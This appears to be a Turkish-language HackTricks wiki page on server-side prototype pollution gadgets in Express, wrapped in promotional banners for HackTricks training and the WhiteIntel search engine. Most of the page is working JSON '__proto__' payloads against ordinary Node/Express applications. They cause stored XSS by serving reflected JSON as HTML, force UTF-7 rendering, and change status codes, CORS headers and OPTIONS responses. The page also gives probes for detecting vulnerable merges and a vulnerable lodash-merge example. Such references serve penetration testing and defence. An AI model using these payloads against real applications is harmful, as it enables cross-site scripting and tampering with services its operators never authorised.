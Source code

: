 # Express Prototype Pollution Gadgets

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

- **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
- [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
- [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
- **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'da **takip edin**.
- **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## WhiteIntel

<figure><img src=".gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io), **dark-web** destekli bir arama motorudur ve şirketin veya müşterilerinin **hırsız kötü amaçlı yazılımlar** tarafından **kompromize edilip edilmediğini** kontrol etmek için **ücretsiz** işlevler sunar.

WhiteIntel'in başlıca amacı, bilgi çalan kötü amaçlı yazılımlardan kaynaklanan hesap ele geçirmeleri ve fidye yazılımı saldırılarıyla mücadele etmektir.

Websitesini ziyaret edebilir ve motorlarını **ücretsiz** deneyebilirsiniz:

{% embed url="https://whiteintel.io" %}

---

## XSS yanıtlarını sunun

**Daha fazla ayrıntı için [orijinal araştırmaya göz atın](https://portswigger.net/research/server-side-prototype-pollution)**

### JSON içerik türünü HTML'ye değiştirin

Bir Express uygulamasında **JSON içerik türü yanıtı** kullanan ve bir JSON yansıtan:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
Bu durumlarda XSS genellikle JSON içerik türüyle mümkün olmaz. Bununla birlikte, prototype pollution ile Express'i bir HTML yanıtı sunmaya **yanıltabiliriz.** Bu zafiyet, uygulamanın **`res.send(obj)`** kullanmasına ve application/json içerik türüyle body ayrıştırıcısını kullanmasına dayanır.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
**`body`** ve **`_body`** özelliklerini **kirleterek**, **Express'in HTML içerik türünü sunmasına** ve **_body** özelliğini yansıtarak depolanan XSS'e neden olmak mümkündür.

### UTF7 Rendeleme

Express'in **UTF-7 içeriği render etmesi mümkündür**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Güvenli Tarama Teknikleri

### JSON boşlukları

Aşağıdaki PP, bir JSON içindeki özelliklere işlevselliği bozmayacak ek bir boşluk ekleyecektir:
```json
{"__proto__":{"json spaces": " "}}
```
Ardından yansıtılan JSON şu şekilde görünecektir:
```json
{"foo":  "bar"} -- Note the extra space
```
### Açık Başlıklar

Aşağıdaki PP cihazı sunucunun **`Access-Control-Expose_headers: foo`** HTTP başlığını geri göndermesini sağlayacaktır.
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Gerekli olan **CORS modülünün yüklü olmasıdır**

### **OPTIONS Metodu**

Aşağıdaki yük ile bir OPTIONS yanıtından bir metodun **gizlenmesi mümkündür**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Durum**

Aşağıdaki PP yükü kullanılarak **döndürülen durum kodu** değiştirilebilir:
```json
{"__proto__":{"status":510}}
```
### Hata

Bir dize gibi bir ilkel değerle bir prototip atadığınızda, prototipin bir nesne olması gerektiği için bir **boş işlem üretir**. Bir prototip nesnesini `Object.prototype`'e atamaya çalışırsanız, bu bir **istisna fırlatacaktır**. Bu iki davranışı kullanarak **prototip kirliliğinin başarılı olup olmadığını tespit edebiliriz**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Yansıtılan Değer

Bir uygulama yanıtında bir nesne içeriyorsa ve `__proto__` ile birlikte **olağandışı bir isme sahip bir özellik oluşturulursa**, bu durum dikkat çekici olabilir. Özellikle, yanıtta **yalnızca olağandışı özelliğin** döndürülmesi, uygulamanın zafiyetini işaret edebilir:
```json
{"unusualName":"value","__proto__":"test"}
```
Ayrıca, Lodash gibi bir kütüphane kullanıldığında, bir özelliği hem prototip kirliliği (PP) aracılığıyla hem de doğrudan nesnenin içine ayarlamak, başka bir teşhis yaklaşımı sunar. Eğer bu tür bir özellik yanıttan çıkarılırsa, bu, Lodash'ın birleştirmeden önce hedef nesnede özelliğin varlığını doğruladığını gösterir:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Çeşitli

### Noktalara İzin Ver

Express'te **sorgu dizesi parametrelerinden nesneler oluşturmanıza izin veren** bir seçenek bulunmaktadır.\
Bu seçeneği kullanarak bir hata **zinciri** oluşturup bir **prototype pollution zafiyetini** sömürmekte kesinlikle kullanabilirsiniz.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` Node'da bir nesne oluşturur.**

## Referanslar

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


## WhiteIntel

<figure><img src=".gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io), **karanlık ağ** destekli bir arama motorudur ve şirketin veya müşterilerinin **hırsız kötü amaçlı yazılımlar** tarafından **kompromize edilip edilmediğini** kontrol etmek için **ücretsiz** işlevler sunar.

WhiteIntel'in başlıca amacı, bilgi çalan kötü amaçlı yazılımlardan kaynaklanan hesap ele geçirmeleri ve fidye yazılımı saldırılarıyla mücadele etmektir.

Websitesini ziyaret edebilir ve motorlarını **ücretsiz** deneyebilirsiniz:

{% embed url="https://whiteintel.io" %}

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

